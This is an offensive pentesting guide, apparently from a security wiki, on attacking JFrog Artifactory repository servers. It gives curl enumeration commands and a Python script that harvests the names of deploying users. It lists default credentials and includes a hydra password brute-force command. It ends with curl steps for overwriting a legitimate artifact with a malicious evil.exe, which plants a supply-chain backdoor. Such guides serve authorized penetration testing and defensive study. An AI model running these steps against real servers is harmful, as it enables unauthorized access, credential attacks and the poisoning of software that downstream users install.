 # Artifactory Pentesting

Theory

[Artifactory](https://jfrog.com/artifactory/) is a widely used **binary repository manager** that serves as a central hub for managing, storing, and distributing software, binaries, artifacts and dependencies. It supports multiple package types and integrates seamlessly with build tools, CI/CD pipelines, and DevOps workflows.

From an attacker's perspective, this centralization and trust make Artifactory a high-value target. By compromising the server, we can can introduce malicious artifacts that propagate through the development pipeline, enabling supply chain attacks.

Additionally, Artifactory often contains sensitive information, such as API keys, authentication tokens, and embedded secrets within binaries or configuration files, which we may exfiltrate or use to escalate privileges or pivot to other systems.

## Practice

### Enumeration

{% tabs %}
{% tab title="WebInterface" %}
Artifactory's web interface run by default on port **8081**.

```bash
curl http://<TARGET>:8081
```
{% endtab %}

{% tab title="Process" %}
Localy, we can simply enumerate processes to determine wether Artifactory is running.

```bash
ps -ef | grep artifactory
```
{% endtab %}

{% tab title="Anonymous Account Rights" %}
Sometimes, because of a misconfiguration, anonymous is allowed to deploy files to some repositories!

To check which repositories the anonymous user can deploy to, use the following request:

```bash
curl http://<TARGET>:8081/artifactory/ui/repodata?deploy=true
# Or for later versions
curl http://<TARGET>:8081/artifactory/ui/api/v1/ui/repodata?deploy=true
```
{% endtab %}

{% tab title="Enumerate Users" %}
#### **Anonymous & Low-Privileged Users**

Listing users is typically a privilege reserved for administrators. However, using the script belows, leveraging the “Deployed By” attribute associated with artifacts, we can enumerate users actively involved in deployments

{% code title="enum_artifacts_users.py" %}
```python
# Original Script: https://gist.github.com/gquere/347e8e042490be87e6e9e32e428cb47a
# This script was adapted to support Authentication 

import requests
import json
import urllib3
import sys
import argparse

# SUPPRESS WARNINGS ############################################################
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ADD USER #####################################################################
def check_users(details, users):
    if 'createdBy' not in details:
        return

    if details['createdBy'] not in users:
        print('Found user {}'.format(details['createdBy']))
        users.append(details['createdBy'])
    if details['modifiedBy'] not in users:
        print('Found user {}'.format(details['modifiedBy']))
        users.append(details['modifiedBy'])

# MAIN #########################################################################
def main():
    # Parse command-line arguments
    parser = argparse.ArgumentParser(description="Process repositories and check users.")
    parser.add_argument("url", help="Base URL of the API")
    parser.add_argument("--user", help="Username for Basic Authentication")
    parser.add_argument("--password", help="Password for Basic Authentication")
    args = parser.parse_args()

    url = args.url.rstrip('/')
    auth = (args.user, args.password) if args.user and args.password else None

    session = requests.Session()
    users = []

    try:
        response = session.get(url + '/api/repositories', verify=False, auth=auth)
        response.raise_for_status()
        repositories = json.loads(response.text)
    except Exception as e:
        print(f"Failed to fetch repositories: {e}")
        sys.exit(1)

    print('There are {} repositories to process'.format(len(repositories)))
    for repository in repositories:
        try:
            response = session.get(url + '/api/storage/' + repository['key'], verify=False, auth=auth)
            if 'json' not in response.headers.get('Content-Type', ''):
                continue
            rep = json.loads(response.text)

            for child in rep.get('children', []):
                uri = child['uri']
                response = session.get(url + '/api/storage/' + repository['key'] + uri, verify=False, auth=auth)
                if 'json' not in response.headers.get('Content-Type', ''):
                    continue
                details = json.loads(response.text)
                check_users(details, users)
        except Exception as e:
            print(f"Error processing repository {repository.get('key', 'unknown')}: {e}")


if __name__ == "__main__":
    main()

```
{% endcode %}

We can run the script as follows:

```bash
# Run as anonymous user
python enum_artifacts_users.py "http://<TARGET>:8081/artifactory"

# Run as low priviledged user
python enum_artifacts_users.py "http://<TARGET>:8081/artifactory" --user <USER> --password <PASSWORD>
```

#### Admin Users

If we have administrative rights, we can enumerate users as follows:

```bash
curl -uadmin:password123 "http://controller:8082/artifactory/api/users"|jq
```
{% endtab %}
{% endtabs %}

### Authentication

{% hint style="info" %}
By default, no password locking policy is in place which makes Artifactory a prime target for credential stuffing and password spraying attacks.
{% endhint %}

{% tabs %}
{% tab title="Default Credentials" %}
Artifactory’s default accounts are:

| Account      | Default password                               | Notes                                                                |
| ------------ | ---------------------------------------------- | -------------------------------------------------------------------- |
| admin        | password                                       | common administration account                                        |
| access-admin | password (<6.8.0) or a random value (>= 6.8.0) | used for local administration operations only                        |
| anonymous    | ’’                                             | anonymous user to retrieve packages remotely, not enabled by default |
{% endtab %}

{% tab title="Brute Force" %}
We can brute-force access-admin's password using hydra and BasicAuth as follows

```bash
hydra -l access-admin -P /usr/share/wordlists/rockyou.txt <TARGET-IP> http-get "/artifactory/api/repositories:S=200" -s 8081
```
{% endtab %}
{% endtabs %}

### Modifying Artifacts

{% tabs %}
{% tab title="cURL" %}
If you have administrative/write access to a repository, you can upload a malicious file to replace an original one.

First, enumerate repositories

```bash
# Get list of repo
curl -u<USER>:<PASSWORD> "http://<TARGET>:8081/artifactory/api/repositories"|jq

# Replace <KEY> with the target repository found earlier, and query files
curl -u<USER>:<PASSWORD> "http://<TARGET>:8081/artifactory/api/storage/<KEY>"|jq
 
# We can brows folder and files as follows
curl -u<USER>:<PASSWORD> "http://<TARGET>:8081/artifactory/api/storage/<KEY>/<URI>"|jq
```

Once we found a interesting file to backdor (e.g `http://<TARGET>:8081/artifactory/api/storage/SimpleRepo/app.exe`)

We can replace the file as follows

```bash
# Replace using <REPO_URL><TARGET> as url
curl -u<USER>:<PASSWORD> -T evil.exe "http://<TARGET>:8081/artifactory/SimpleRepo/app.exe"
```
{% endtab %}
{% endtabs %}

### Post-Exploitation

{% hint style="danger" %}
The following are only useful once we have achieved remote code execution or arbitrary file read on the server.
{% endhint %}

//TODO

## Resources

{% embed url="https://www.errno.fr/artifactory/Attacking_Artifactory" %}

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/artifactory" %}
